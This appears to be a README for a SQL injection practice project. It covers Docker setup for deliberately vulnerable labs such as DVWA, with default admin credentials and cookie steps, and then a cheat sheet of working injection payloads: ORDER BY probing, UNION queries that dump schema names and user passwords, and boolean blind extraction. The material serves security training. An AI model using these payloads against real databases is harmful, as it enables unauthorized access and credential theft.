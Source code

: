 # Vaccine

# Usage

- start running docker containers
  ```
  make setup
  ```

## [`Damn Vulnerable Web Application`](https://github.com/digininja/DVWA)

|  | data |
| - | - |
| url |  http://localhost:8080/vulnerabilities/sqli/index.php |
| method | GET |
| token | required |

1. start docker container (`make setup`)
   ```
   docker run -it -d -p 8080:80 vulnerables/web-dvwa
   ```
2. initialize database manually
   - http://localhost:8080/setup.php

3. login manually
   - http://localhost:8080/login.php
   ```
   username: admin
   password: password
   ```

4. get cookie
   - http://localhost:8080/index.php
   - get cookie value of `PHPSESSID`
     - inspect -> Application tab -> Storage -> Cookies

5. set cookie to evn variable
   ```
   export TOKEN=YOUR_COOKIE
   ```

## [`sqli-playground`](https://gitlab.cylab.be/cylab/play/sqlite-injection/)

|  | data |
| - | - |
| url | http://localhost:8000 | 
| method | POST |
| token | - |

1. start docker container (`make setup`)
   ```
   docker run -d -p 8000:80 gitlab.cylab.be:8081/cylab/play/sqlite-injection
   ```

# Other SQL injection sites

- https://altoromutual.com/login.jsp

- https://redtiger.labs.overthewire.org/

## ERROR
- Use `ORDER BY` to check numbers of colums
```
' ORDER BY 1--
' ORDER BY 2--
...
```

## UNION

### MySQL
- https://portswigger.net/web-security/sql-injection/union-attacks

- Get database name
```
' UNION SELECT null, DATABASE() #
```
- Get table_names
```
' UNION SELECT null, table_name FROM information_schema.tables WHERE table_type='BASE TABLE' AND table_schema = 'dvwa' #
```
- Get column_names
```
' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users'#
```

### SQLite

- Get table_names
```
' union select null, null, tbl_name from sqlite_master--
```
- Get column_names
```
' union select null, null, sql from sqlite_master where name="users"--
```


- working other query examples
```
' union select null, username, password from users --
```


## Boolean

```
' or 1=2--
```

```
' or (select count(*) from app.accounts where substr(password, 1, 1)='a') >0--

